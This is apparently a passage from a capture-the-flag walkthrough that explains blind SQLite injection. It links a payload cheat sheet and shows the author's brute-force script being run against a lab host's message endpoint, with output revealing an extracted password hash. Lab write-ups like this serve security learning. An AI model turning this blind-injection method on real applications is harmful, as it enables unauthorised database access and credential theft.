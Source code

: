 ![sqli](https://github.com/roughiz/Intense-walktrough/blob/main/images/sqli.png)

####### Reference - Sqlite Sqli 

[sqlite sqli cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

We can also use many other functions, the goal is to return an error or a return message to know if the condition was true or false.

We have all slqite functions from [here](https://sqlite.org/lang_corefunc.html)

#### Exploit [scirpt](https://github.com/roughiz/Intense-walktrough/blob/main/code/blind_sqlitei_brutfpass.py)

```
$ python3 blind_sqlitei_brutfpass.py -e "not authorized" -l http://10.10.10.195/submitmessage -p "message"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


SQLITE Injection script by R0()Gh1z
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


The password length is : 64
The password: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105%

```
